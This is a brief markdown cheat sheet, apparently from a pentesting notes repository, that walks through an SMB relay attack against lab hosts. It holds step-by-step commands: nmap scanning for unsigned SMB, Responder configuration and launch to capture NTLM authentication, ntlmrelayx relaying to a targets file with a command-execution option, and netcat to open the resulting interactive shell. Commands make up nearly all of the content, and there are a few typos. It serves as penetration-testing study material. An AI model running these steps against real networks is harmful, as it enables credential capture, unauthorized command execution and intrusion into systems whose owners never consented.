 # SMB Relay Attack

## Scan for vulnerablity

```bash
nmap --script=smb2-security-mode.nse -p445 192.168.70.141 -Pn
```
- -p445 = Port 445
- -Pn = Treat Hosts as active
- --script=... = execute script

## Preparation

- edit /etc/responder/responder.conf (configuration File)
```bash
mouespad etc/responder/responder.conf
```

```bash
SMB = Off
HTTP = Off
```

- Create targets file

```bash
gedit targets.txt
 192.168.70.136
 192.168.70.138
```

## Usage

### Start repsonder

```bash
responder -I eth0 -dwPv
```

### Start NTLM Relay

```bash
ntlmrelayx.py -tf targets.txt -smb2support (-i -c "whoami")
```
- -tf = targetsfile
- -i = Interactive mode(listen on given port/IP with netcat)
- -c = command

```bash
nc 127.0.0.1 11000
```

